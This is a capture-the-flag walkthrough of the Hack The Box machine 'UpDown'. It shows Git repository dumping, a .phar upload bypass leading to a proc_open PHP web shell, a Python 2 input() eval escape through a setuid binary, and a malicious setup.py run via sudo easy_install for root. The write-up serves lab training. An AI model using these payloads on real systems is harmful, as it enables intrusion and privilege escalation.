





---
tags:
  - hack
  - linux
---
# HTB: [UpDown](https://app.hackthebox.com/machines/UpDown)

> [!tip]- Summary with Spoilers
> A website leaks source code via an exposed Git repository. A development version of the site is accessible using secrets discovered in the source code. A file-upload attack is possible which bypasses the file-extension blacklist for PHP code execution, albeit via a different function than `system()`. An insecure Python 2.7 script allows code `eval()` for pivoting to the `developer` user. Finally, `sudo` access to the old `easy_install` Python 2.7 module grants a shell as `root`.
>
> This box was useful for practicing web content enumeration, source code analysis, bypassing blacklists, and exploiting Python 2.7 code execution vulnerabilities.

## Enumeration

### `nmap`

#### TCP

- Target: `updown.htb 10.10.11.177`
- Command: `nmap -v --reason -Pn -T4 -p- --open -sCV -oA nmap_tcp-updown.htb updown.htb

Only relevant services shown below.

##### 80/tcp-http `Apache httpd` `2.4.41` `((Ubuntu))`

```text
__http-methods:
  Supported Methods: GET HEAD POST OPTIONS
__http-title:
Is my Website up ?
__http-server-header:
Apache/2.4.41 (Ubuntu)
```

### Manual Enumeration

The website is an availability checker:



```console
$ feroxbuster -k -u http://updown.htb/dev -w ~/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -C404,403 -d1 -EBg -v
...
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
WRN      1.228 feroxbuster::extractor::container Error during link extraction: previously seen url
301      GET        9l       28w      306c http://updown.htb/dev => http://updown.htb/dev/
200      GET        0l        0w        0c http://updown.htb/dev/
200      GET        0l        0w        0c http://updown.htb/dev/index.php
301      GET        9l       28w      311c http://updown.htb/dev/.git => http://updown.htb/dev/.git/
[####################] - 65s    31535/31535   0s      found:4       errors:0
[##########>---------] - 64s    16245/31525   254/s   http://updown.htb/dev/
```

I can fetch the Git repo with [git-dumper](https://github.com/arthaud/git-dumper):

```console
$ git-dumper http://updown.htb/dev/ dev
[-] Testing http://updown.htb/dev/.git/HEAD [200]
[-] Testing http://updown.htb/dev/.git/ [200]
[-] Fetching .git recursively
...
[-] Fetching http://updown.htb/dev/.git/logs/refs/heads/main [200]
[-] Fetching http://updown.htb/dev/.git/logs/refs/remotes/origin/ [200]
[-] Fetching http://updown.htb/dev/.git/refs/remotes/origin/HEAD [200]
[-] Fetching http://updown.htb/dev/.git/logs/refs/remotes/origin/HEAD [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 6 paths from the index
```

I peek through the history using `git log` and find an interesting entry for `.htaccess`:

```diff
$ git show bc4ba79e596e9fd98f1b2
commit bc4ba79e596e9fd98f1b2837b9bd3548d04fe7ab
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:37:20 2021 +0200

    Update .htaccess

    New technique in header to protect our dev vhost.

diff --git a/.htaccess b/.htaccess
index 3190432..44ff240 100644
--- a/.htaccess
+++ b/.htaccess
@@ -1,5 +1,4 @@
-AuthType Basic
-AuthUserFile /var/www/dev/.htpasswd
-AuthName "Remote Access Denied"
-Require ip 127.0.0.1 ::1
-Require valid-user
+SetEnvIfNoCase Special-Dev "only4dev" Required-Header
+Order Deny,Allow
+Deny from All
+Allow from env=Required-Header
```

  This tells me a couple of things: there's a version of the site in development, and it requires a special HTTP header for access.

  I scan for subdomains, and hit on an obvious one:

```console
$ ffuf -w ~/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://siteisup.htb -H 'Host: FUZZ.siteisup.htb' -ac
...
dev                     [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 102ms]
```

I add the header `Special-Dev: only4dev` for requests to succeed.



Here is `checker.php` from the Git repository I dumped:

```php
<?php
if(DIRECTACCESS){
	die("Access Denied");
}
?>
<!DOCTYPE html>
<html>

  <head>
    <meta charset='utf-8' />
    <meta http-equiv="X-UA-Compatible" content="chrome=1" />
    <link rel="stylesheet" type="text/css" media="screen" href="stylesheet.css">
    <title>Is my Website up ? (beta version)</title>
  </head>

  <body>

    <div id="header_wrap" class="outer">
        <header class="inner">
          <h1 id="project_title">Welcome,<br> Is My Website UP ?</h1>
          <h2 id="project_tagline">In this version you are able to scan a list of websites !</h2>
        </header>
    </div>

    <div id="main_content_wrap" class="outer">
      <section id="main_content" class="inner">
        <form method="post" enctype="multipart/form-data">
			    <label>List of websites to check:</label><br><br>
				<input type="file" name="file" size="50">
				<input name="check" type="submit" value="Check">
		</form>

<?php

function isitup($url){
	$ch=curl_init();
	curl_setopt($ch, CURLOPT_URL, trim($url));
	curl_setopt($ch, CURLOPT_USERAGENT, "siteisup.htb beta");
	curl_setopt($ch, CURLOPT_HEADER, 1);
	curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
	curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
	curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
	curl_setopt($ch, CURLOPT_TIMEOUT, 30);
	$f = curl_exec($ch);
	$header = curl_getinfo($ch);
	if($f AND $header['http_code'] == 200){
		return array(true,$f);
	}else{
		return false;
	}
    curl_close($ch);
}

if($_POST['check']){

	# File size must be less than 10kb.
	if ($_FILES['file']['size'] > 10000) {
        die("File too large!");
    }
	$file = $_FILES['file']['name'];

	# Check if extension is allowed.
	$ext = getExtension($file);
	if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
		die("Extension not allowed!");
	}

	# Create directory to upload our file.
	$dir = "uploads/".md5(time())."/";
	if(!is_dir($dir)){
        mkdir($dir, 0770, true);
    }

  # Upload the file.
	$final_path = $dir.$file;
	move_uploaded_file($_FILES['file']['tmp_name'], "{$final_path}");

  # Read the uploaded file.
	$websites = explode("\n",file_get_contents($final_path));

	foreach($websites as $site){
		$site=trim($site);
		if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
			$check=isitup($site);
			if($check){
				echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
			}else{
				echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
			}
		}else{
			echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
		}
	}

  # Delete the uploaded file.
	@unlink($final_path);
}

function getExtension($file) {
	$extension = strrpos($file,".");
	return ($extension===false) ? "" : substr($file,$extension+1);
}
?>
      </section>
    </div>

    <div id="footer_wrap" class="outer">
      <footer class="inner">
        <p class="copyright">siteisup.htb (beta)</p><br>
        <a class="changelog" href="changelog.txt">changelog.txt</a><br>
      </footer>
    </div>

  </body>
</html>
```

This version of the site will accept an uploaded file of newline-delimited URLs, each of which gets checked for availability. It tries to prevent a PHP-executable filename by blacklisting various extensions, but they forgot `phar`. It also creates a temporary directory based on the MD5 hash of the timestamp for storing the file, which makes it a little tricky to trigger. So, I'll pass it a long list of URLs to check which will keep the server busy while I locate the temporary directory inside of `/uploads` to trigger the payload.

Proof of concept:

```php
<?php phpinfo(); ?>
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
[...repeated 100 times...]
```

It works:



However, getting a web shell isn't easy because the usual functions `exec`, `system`, and `passthru` are disabled:



## Remote Code Execution

They missed disabling `proc_popen`, so I can use that. I write a webshell:

```http
-----------------------------33647835311173492931897951583
Content-Disposition: form-data; name="file"; filename="x.phar"
Content-Type: application/octet-stream

<?php $f = '/var/www/dev/x.php'; $p = '<?php $p=proc_open($_GET["cmd"],[["pipe","r"],["pipe","w"],["pipe","w"]],$o);echo stream_get_contents($o[1]);proc_close($p);?>'; file_put_contents($f, $p); echo "wrote: $f"; ?>
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
...
```

It works:



There's a `setuid` binary owned by the `developer` user:

```console
www-data@updown:/home/developer/dev$ ls -l
ls -l
total 24
-rwsr-x--- 1 developer www-data 16928 Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data   154 Jun 22  2022 siteisup_test.py
```

```console
$ strings siteisup
/lib64/ld-linux-x86-64.so.2
libc.so.6
...
Welcome to 'siteisup.htb' application
/usr/bin/python /home/developer/dev/siteisup_test.py
...
```

```python
www-data@updown:/home/developer/dev$ cat siteisup_test.py
cat siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```

The `input()` function allows arbitrary Python via `eval()`:

```console
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:eval("__import__('os').system('/bin/sh')")

eval("__import__('os').system('/bin/sh')")
$
$ id
id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```

This gives access to `/home/developer/.ssh/id_rsa` for a stable login shell.

## Privilege Escalation

```console
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

```python
developer@updown:~$ cat /usr/local/bin/easy_install
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from setuptools.command.easy_install import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

[easy_install](https://setuptools.pypa.io/en/latest/deprecated/easy_install.html) was deprecated by `pip`. It's trivially exploitable here. I create the following payload:

```python
developer@updown:~$ cat /tmp/x/setup.py
import os
from distutils.core import setup

os.system("/bin/sh")

setup(
    name='x',
    version='0.1',
    py_modules=[]
)
```

And that gives me `root`:

```console
developer@updown:~$ sudo /usr/local/bin/easy_install /tmp/x
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing x
Writing /tmp/x/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/x/egg-dist-tmp-Gt7PhG
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
bb9ba2...
```
